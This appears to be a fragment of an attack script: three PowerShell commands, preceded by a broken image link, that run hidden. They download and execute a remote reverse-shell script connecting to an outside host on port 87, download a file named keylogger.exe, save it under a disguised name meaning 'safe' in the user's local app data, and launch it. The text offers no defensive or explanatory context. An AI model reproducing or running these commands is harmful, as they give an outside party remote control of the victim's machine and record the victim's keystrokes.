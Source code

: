 powershell -WindowStyle Hidden -Command "IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell (Resolve-DnsName jangosserver.eu).IPAddress 87"

Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe" -OutFile "$env:LOCALAPPDATA\bezopasno.exe"

& "$env:LOCALAPPDATA\bezopasno.exe"
